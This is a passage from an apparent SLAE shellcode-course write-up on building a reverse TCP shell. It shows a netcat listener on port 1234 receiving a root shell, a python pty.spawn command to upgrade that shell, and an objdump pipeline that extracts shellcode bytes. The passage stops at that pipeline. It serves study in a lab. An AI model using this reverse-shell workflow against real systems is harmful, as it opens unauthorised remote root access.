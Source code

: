 <p style="text-align:justify;">Furthermore, the reverse program runs as follows</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># ./reverse 
</pre>

<p style="text-align:justify;">In detail, when the reverse program runs, a connection initiates&nbsp;to the target machine that listens to port <strong>1234&nbsp;</strong></p>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234
whoami
root
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>

<p style="text-align:justify;">Furthermore, after the successful connection to the target machine, we will use the following python command in order to have a bash prompt to the open shell above</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234
python -c 'import pty; pty.spawn("/bin/bash")'
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># id
id
uid=0(root) gid=0(root) groups=0(root)
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># netstat -antp | grep 1234
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>

<p style="text-align:justify;">
Moreover, in order to create the configurable shellcode, the first thing to do is to use the following command to create the shellcode
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># objdump -d ./reverse|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
